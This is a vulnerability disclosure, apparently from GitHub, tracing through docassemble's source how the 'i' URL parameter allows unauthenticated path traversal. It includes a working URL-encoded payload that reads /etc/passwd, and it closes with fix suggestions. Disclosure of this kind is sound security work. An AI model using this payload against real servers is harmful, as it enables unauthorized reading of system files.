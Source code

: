 # Unauthorized access through URL manipulation
​	Unauthorized access still exists in the new version. In order to prove the cause of the vulnerability, I gave my understanding of the source code.

```python
# server.py

@app.route(index_path, methods=['POST', 'GET'])
def index(action_argument=None, refer=None):
    ...
    if 'i' not in request.args and 'state' in request.args:
        try:
            yaml_filename = re.sub(r'\^.*', '', from_safeid(request.args['state']))
        except:
            yaml_filename = guess_yaml_filename()
    else:
        yaml_filename = request.args.get('i', guess_yaml_filename())
        ...
        
# backend.py
def guess_yaml_filename():
    yaml_filename = None
    if 'i' in session and 'uid' in session:  # TEMPORARY
        yaml_filename = session['i']
    if 'sessions' in session:
        for item in session['sessions']:
            yaml_filename = item
            break
    return yaml_filename
```

​	As long as the i parameter appears in the query parameter, it will try to read the i parameter. If the value of the i parameter is None, the corresponding file name will be obtained from i and uid in the session.

```python
# server.py
@app.route(index_path, methods=['POST', 'GET'])
def index(action_argument=None, refer=None):
    ...
    if 'i' not in request.args and 'state' in request.args:
        try:
            yaml_filename = re.sub(r'\^.*', '', from_safeid(request.args['state']))
        except:
            yaml_filename = guess_yaml_filename()
    else:
        yaml_filename = request.args.get('i', guess_yaml_filename())
    ...
		else:
            yaml_filename = re.sub(r':([^\/]+)$', r':data/questions/\1', yaml_filename)
            docassemble.base.functions.this_thread.current_info['yaml_filename'] = yaml_filename
        show_flash = False
        interview = docassemble.base.interview_cache.get_interview(yaml_filename)
```


​	Then a substitution will be attempted, replacing parameter values starting with "/" with ":data/questions/", Then the docassemble.base.interview_cache.get_interview method will be called

```python
# interview_cache.py
def get_interview(path):
    if path is None:
        raise DAException("Tried to load interview source with no path")
    if cache_valid(path):
        the_interview = cache[path]['interview']
        the_interview.from_cache = True
    else:
        interview_source = docassemble.base.parse.interview_source_from_string(path)
        interview_source.update()
        the_interview = interview_source.get_interview()
        the_interview.from_cache = False
        cache[interview_source.path] = {'index': interview_source.get_index(), 'interview': the_interview, 'source': interview_source}
    return the_interview

def cache_valid(questionPath):
    if questionPath in cache and cache[questionPath]['index'] == cache[questionPath]['source'].get_index():
        return True
    return False
```


​	The current user is not logged in, so there is no cache. The branch in else will be executed, and the docassemble.base.parse.interview_source_from_string method will be executed.

```python
# parse.py
def interview_source_from_string(path, **kwargs):
    if path is None:
        raise DAError("Passed None to interview_source_from_string")
    # logmessage("Trying to find " + path)
    path = re.sub(r'(docassemble.playground[0-9]+[^:]*:)data/questions/(.*)', r'\1\2', path)
    for the_filename in question_path_options(path):
        if the_filename is not None:
            new_source = InterviewSourceFile(filepath=the_filename, path=path)
            if new_source.update(**kwargs):
                return new_source
    raise DANotFoundError("Interview " + str(path) + " not found")
```


​	The branch will be judged based on whether the file exists. If the file does not exist, DANotFoundError("Interview " + str(path) + " not found") will be thrown. If the file exists, an object will be instantiated based on the file path.

```	python
def filename_invalid(filename):
    if '../' in filename or filename.startswith('/'):
        return True
    if re.search(r'[^A-Za-z0-9\_\.\-\/ ]', filename):
        return True
```


​	Although parameter values starting with "/" have been filtered, the file content can still be accessed by constructing the following payload

```http
?i=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```


​	I installed it through the docker installation method recommended on the official website.

>docker run -d -p 80:80 -p 443:443 --restart always --stop-timeout 600 jhpyle/docassemble


​	This is a test of the latest version I downloaded in docker

![8b3ca76876c7b5b656825a8a3103a3e](https://github.com/thedarknessdied/docassemble/blob/main/8b3ca76876c7b5b656825a8a3103a3e.png)

##  suggestion:

1. Filter special characters, such as "./", "../"
2. The obtained parameters are first decoded by the URL.
